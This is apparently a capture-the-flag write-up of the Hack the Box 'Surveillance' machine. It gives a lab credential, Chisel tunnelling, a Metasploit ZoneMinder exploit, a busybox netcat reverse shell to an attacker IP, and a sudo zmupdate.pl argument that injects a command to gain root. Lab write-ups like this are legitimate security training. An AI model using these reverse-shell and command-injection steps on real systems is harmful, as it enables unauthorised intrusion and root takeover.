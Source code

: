 ```yaml
---
description: >-
  H3xano's write-up on the HTB machine : [Medium] Surveillance
title: Hack the Box - Surveillance Writeup
date: 2023-12-13 00:00:00 -0000
categories: [Hack the Box, Writeup]
tags: [htb, hacking, hack the box, writeup]     # TAG names should always be lowercase
---
```


## HTB - Surveillance

## Overview

![Descriptive information card about Surveillance](/assets/img/surveillance-infocard.png)

The target machine, named "Surveillance", is a medium difficulty Linux machine. It involves multiple steps for compromise. It begins with establishing a foothold as the www-data user, followed by privilege escalation through the Matthew user. The final escalation results in root access via the Zoneminder user.

### Target Information:

- **IP Address:** `<machine ip>`
- **Users:** www-data, Matthew, zoneminder

## Foothold:

### www-data to Matthew:

1. **Connect as www-data:**
   ```bash
   ssh www-data@<machine ip>
   ```
   Upon successful connection, retrieve the credentials for the Matthew user: `matthew:starcraft122490`.

### Matthew to Zoneminder:

1. **Port Forwarding with Chisel:**
   - Utilize Chisel for secure and efficient port forwarding.
     ```bash
     # Run Chisel server at attacker's machine
     ./chisel server --port 1337 --reverse --socks5
     ```

     ```bash
     # Transfer Chisel to victim's PC
     python -m http.server 8888
     wget <your_ip>:8888/chisel
     chmod +x chisel
     ./chisel client <your_ip>:1337 R:<victim_port>:127.0.0.1:8080 &
     ```

2. **Access Zoneminder CMS:**
   - The forwarded port allows access to the Zoneminder CMS from the attacker's machine. Open the browser and navigate to `http://127.0.0.1:<victim_port>`.

3. **Exploitation with Metasploit:**
   - Utilize Metasploit to exploit a vulnerability in Zoneminder Snapshots.
     ```bash
     msfconsole
     ```

     ```bash
     use exploit/unix/webapp/zoneminder_snapshots
     ```

     ```bash
     set RHOSTS <victim_ip>
     set RPORT <victim_port>
     set LHOST <your_ip>
     set TARGETURI /
     ```

     ```bash
     exploit
     ```

     ```bash
     shell
     ```

   This sequence results in the establishment of a Meterpreter session, providing a shell on the victim machine.

### Retrieve User Flag:

4. **Locate User Flag:**
   - Once in the Meterpreter session, navigate to the user's home directory and retrieve the user flag.
     ```bash
     cat /home/Matthew/user.txt
     ```

## Privilege Escalation:

### Zoneminder to Root:

1. **Prepare Reverse Shell:**
   - Create a reverse shell script (`rev.sh`) and place it in `/tmp` on the victim machine.
     ```bash
     #!/bin/bash
     busybox nc 10.10.xx.xx 443 -e sh
     ```

2. **Start a Listener:**
   - Initiate a listener on the attacker's machine to capture the reverse shell connection at port 443.

3. **Execute Privilege Escalation Command:**
   - Run the following command as the zoneminder user to leverage the `zmupdate.pl` script for privilege escalation.
     ```bash
     sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/rev.sh)' --pass=ZoneMinderPassword2023
     ```

4. **Retrieve Root Flag:**
   - Upon execution, the reverse shell script triggers a connection to the attacker's machine. Navigate to the root directory and retrieve the root flag.
     ```bash
     cat /root/root.txt
     ```

## Conclusion:

This comprehensive approach ensures a systematic compromise of the target machine, covering initial access, privilege escalation, and retrieval of both user and root flags. It is crucial to replace placeholder values such as `<machine ip>`, `<your_ip>`, and `10.10.xx.xx` with actual values during the exploitation process. Happy hacking!
